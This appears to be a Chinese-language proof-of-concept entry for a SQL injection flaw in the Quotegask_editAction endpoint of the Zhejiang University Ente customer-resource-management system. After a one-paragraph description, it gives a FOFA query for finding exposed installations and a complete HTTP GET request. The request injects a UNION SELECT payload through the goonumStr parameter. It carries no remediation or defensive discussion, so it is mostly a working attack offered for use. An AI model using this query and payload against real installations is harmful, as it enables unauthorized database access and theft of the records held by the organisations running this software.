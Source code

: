 # 浙大恩特客户资源管理系统Quotegask_editAction存在SQL注入漏洞

浙大恩特客户资源管理系统Quotegask_editAction存在SQL注入漏洞，允许攻击者通过恶意构造的SQL语句操控数据库，从而导致数据泄露、篡改或破坏，严重威胁系统安全。

## fofa

```javascript
app="浙大恩特客户资源管理系统"
```

## poc

```javascript
GET /entsoft/Quotegask_editAction.entweb;.js?goonumStr=1')+UNION+ALL+SELECT+user--+RMMS&method=goonumIsExist HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Length: 34
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

```

